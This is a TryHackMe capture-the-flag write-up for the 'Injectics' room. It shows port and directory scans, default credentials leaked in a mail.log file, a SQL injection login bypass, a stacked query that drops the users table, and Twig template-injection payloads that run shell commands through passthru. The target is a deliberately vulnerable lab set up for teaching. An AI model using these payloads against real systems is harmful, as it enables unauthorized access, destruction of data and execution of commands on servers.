







---
title: Injectics
date: <i class="fa-solid fa-calendar"></i> Creation date:<span style='opacity:0;'>_</span>13.08.2024
keywords:
- Injectics
- Injectics Writeup
- Write-Up
- TryHackMe
- thm
- Aleksander Jóźwik
...

<main>

<div class="card summary">
<h4>Summary</h4>
<hr>
<b><i class="fa-solid fa-box"></i> Source:</b> <a href='https://tryhackme.com/r/room/injectics'>TryHackMe <i class="fa-solid fa-arrow-up-right-from-square"></i></a><br>
<b><i class="fa-solid fa-signal"></i> Difficulty:</b> <span class="medium-diff">Medium</span><br>
</span>
</div>

<div class="card">
<h4>Description</h4>
<hr>
Can you utilise your web pen-testing skills to safeguard the event from any injection attack?
</div>

This room is the last from [Injection Attacks module](https://tryhackme.com/module/injection-attacks), so be sure to finish the rest of the module before tackling this box.

# Enumeration
## Nmap scan
Let's start enumeration by running an **nmap scan** (**-sV** - service version detection; **-sC** - enables most common scripts; **-p-** - scan all ports).
```
$ nmap -sV -sC -p- 10.10.152.215
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 22:15 CEST
Nmap scan report for 10.10.152.215
Host is up (0.053s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d3:13:d6:56:06:db:b0:41:55:db:d5:3d:36:60:19:e9 (RSA)
|   256 92:93:9e:aa:fc:ec:18:82:1e:4c:d1:07:2c:b9:0a:80 (ECDSA)
|_  256 19:7b:40:56:44:d4:10:86:35:aa:16:7d:1e:1d:8f:2f (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Injectics Leaderboard
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As we can see there are **2 open ports**: **SSH** and **HTTP**. Let's enumerate the HTTP server using **Gobuster**.

## Gobuster scan

I will use following parameters:

- **-x** - scanning for specific file extensions
- **-u** - URL
- **-w** - wordlist
- **-t** - number of concurrent threads (faster scanning)
- **-b** - blacklisting HTTP status codes (404,403)

```
gobuster dir -x txt,php,html,js,json -u http://10.10.28.40 -w /usr/share/wordlists/dirb/big.txt -t 32 -b 404,403 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.28.40
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404,403
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,js,json,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/composer.json        (Status: 200) [Size: 48]
/conn.php             (Status: 200) [Size: 0]
/css                  (Status: 301) [Size: 308] [--> http://10.10.28.40/css/]
/dashboard.php        (Status: 302) [Size: 0] [--> dashboard.php]
/flags                (Status: 301) [Size: 310] [--> http://10.10.28.40/flags/]
/functions.php        (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 6588]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.28.40/javascript/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.28.40/js/]
/login.php            (Status: 200) [Size: 5401]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.28.40/phpmyadmin/]
/script.js            (Status: 200) [Size: 1088]
/vendor               (Status: 301) [Size: 311] [--> http://10.10.28.40/vendor/]
Progress: 122814 / 122820 (100.00%)
===============================================================
Finished
===============================================================
```
To summarize the scan, we've got **composer.json** which is a file of [Composer](https://getcomposer.org/) - dependency manager for PHP, some PHP files, **flags and vendor** directories, **phpmyadmin/** directory - [tool](https://www.phpmyadmin.net/) that facilitates database management, [script.js]() and other typical directories.

## composer.json


Project uses [twig](https://twig.symfony.com/) which is a PHP template engine used in [Symfony framework](https://en.wikipedia.org/wiki/Symfony).

## index.php

There is nothing interesting here, so let's check the source code.

```html
<!-- Website developed by John Tim - dev@injectics.thm-->

<!-- Mails are stored in mail.log file-->
    <!-- Bootstrap JS and dependencies -->
```
There is a comment at the end of the file. It says mails are stored in [mail.log](#maillog) file.

## mail.log
```
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm
```
In summary, if we delete the **users table**, default credentials will be automatically inserted.

## login.php
From the index page we can navigate to **login.php**.

The button on the bottom redirects as to new file called **adminLogin007.php**. Unfortunately we can't login with default credentials.

If we check source of the **login.php**, we will find that **script.js** (file we found during [gobuster scan](#gobuster-scan)) is used here, so let's examine it.

## script.js

```js
$("#login-form").on("submit", function(e) {
    e.preventDefault();
    var username = $("#email").val();
    var password = $("#pwd").val();

	const invalidKeywords = ['or', 'and', 'union', 'select', '"', "'"];
            for (let keyword of invalidKeywords) {
                if (username.includes(keyword)) {
                    alert('Invalid keywords detected');
                   return false;
                }
            }

    $.ajax({
        url: 'functions.php',
        type: 'POST',
        data: {
            username: username,
            password: password,
            function: "login"
        },
        dataType: 'json',
        success: function(data) {
            if (data.status == "success") {
                if (data.auth_type == 0){
                    window.location = 'dashboard.php';
                }else{
                    window.location = 'dashboard.php';
                }
            } else {
                $("#messagess").html('<div class="alert alert-danger" role="alert">' + data.message + '</div>');
            }
        }
    });
});
```
We can see that [jQuery](https://jquery.com/) (javascript library) is used here. Script overwrites the default behaviour of form element (**preventDefault** function, it means that the page won't be refreshed), next it grabs values of username and password inputs. It checks for signs of **SQL injection** in the username. Next it sends a POST request to **functions.php** with credentials provided by the user. If they match with a record in the database user is directed to **dashboard.php** file.

# Injecting SQL to login form
We can try injecting SQL in the form to authenticate to the dashboard. For this I will use [ZAP](https://www.zaproxy.org/) - web app scanner. I will fuzz the username in order to find proper payload.

First click on the **Firefox icon**, in the browser navigate to **login.php** and submit some data in the form.

Now we can close the browser and come back to **ZAP**. 

As we can see there is more stuff now. Let's right click on the **functions.php**, go to **Attack** and **Fuzz**.

In a new window **select the username value** and click on **Add...**;

Click **Add**...

In **Type** choose *File*, and in **File** choose wordlist. To grab a wordlist we can search on Google for *"Authentication bypass SQL injection wordlist"* and choose the first one.

For you convenience I will link it [here](https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt).

If you've done everything properly you should see new record in Fuzz Locations and the username value should be highlighted. Now you can click **Start Fuzzer**.

After the scan is done, click on the **Response tab** and in the **Fuzzer tab** scroll through records (using arrow keys) to find one which generates successful response. If you look in the **Request tab** you will see that this is the value we were looking for:
```SQL
' OR 'x'='x'#;
```
Although this payload successfully bypasses authentication, if you were to submit a request with this value in the browser, this message would appear.

This is a result of [script.js](#script.js) file, which we examined earlier. To bypass it we would need to intercept login request after it was sent from browser and edit username value. It can be done using [Burp](https://portswigger.net/burp), but this time I will just copy [PHPSESSID](https://www.w3docs.com/snippets/php/what-is-phpsessid.html) Cookie from **ZAP** and paste it in my browser.

You will find the cookie in the **request** tab.

In Firefox open **Web Developer Tools** (Ctrl+Shift+I), go to **Storage** and paste the value. Now refresh the page (Ctrl+R) or navigate to **/dashboard.php** and you should be in.

# Dev panel

There is a leaderboard, which we can edit. If we press any of the Edit buttons we will be redirected to **/edit_leaderboard.php** file, with corresponding **rank** and **country** GET parameters.

## Injecting SQL in leaderboard edit page

Form above sends a **POST request** to the same file (edit_leaderboard.php) with parameters listed below:

- rank
- country
- gold
- silver
- bronze

We will again try SQLi, in this scenario we will stack queries using **semi-colon**. We will pass the payload in Gold variable and it will look like this:
```
;DROP TABLE users -- -
```
The **semi-colon** ends previous query, next we use *DROP TABLE users* to delete the table, lastly we add a comment *"-\-"* on top of that we add **space** and  an **additional hyphen** to ensure that comment works properly. More about that last part you will find [here](https://security.stackexchange.com/questions/229015/in-sql-injections-why-do-they-put-at-the-end-of-the-url).

After sending this request we will see a message.

Once we've waited, log out and attempt to log back in at **/adminLogin007.php** using the default credentials we retrieved from [mail.log](#maillog). I'll provide those credentials again below:
```
| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |
```
# Admin panel
On login we were again redirected to **dashboard.php**, this time it looks different and we can see a first flag in center.

Also there are 3 buttons in the top right.

Let's go to **Profile**.

## Editing profile

Here we can edit profile details. If you recall on the dashboard there was a message "Welcome, admin!", so probably the *"first name"* value is used to display the message. We can try to set it to a random value like test, and see if something changes in the dashboard.

And here it is! 

## Server-Side Template Injection
In the [composer.json](#composerjson) file, we discovered that this app uses [twig](https://twig.symfony.com/) (a template engine), so we can try **Server-Side Template Injection**. We will inject malicious code into a template, which will be executed on the server. More about SSTI [here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). Let's go back to Profile page, and test our idea using payload below:
```
{{7*7}}
```

As we can see our payload was processed. Now let's try something more exciting. If you check the THM page our goal is to read content of **flags** directory. In order to find payload which works you can use this [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig) repository.

If we combine some payloads listed in the repo, we've got this:
```
{{['id','']|sort('passthru')}}
```
Passing it into the form will result in this welcome message.

Now that we have PoC, we can search for flags directory.
```
{{['ls','']|sort('passthru')}}
```

As we can see there is our flags directory, so let's read everything inside this directory.
```
{{['cat flags/*','']|sort('passthru')}}
```

And there is our last flag.